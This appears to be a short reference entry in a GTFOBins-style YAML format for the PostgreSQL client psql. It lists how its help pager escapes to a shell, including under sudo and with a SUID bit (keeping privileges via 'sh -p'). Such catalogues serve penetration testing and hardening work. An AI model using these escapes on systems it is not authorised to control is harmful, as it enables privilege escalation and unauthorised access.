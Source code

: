 ```yaml
---
functions:
  shell:
    - code: |
        psql
        \?
        !sh
  suid:
    - code: |
        psql
        \?
        !sh -p
  sudo:
    - code: |
        psql
        \?
        !sh
---
```

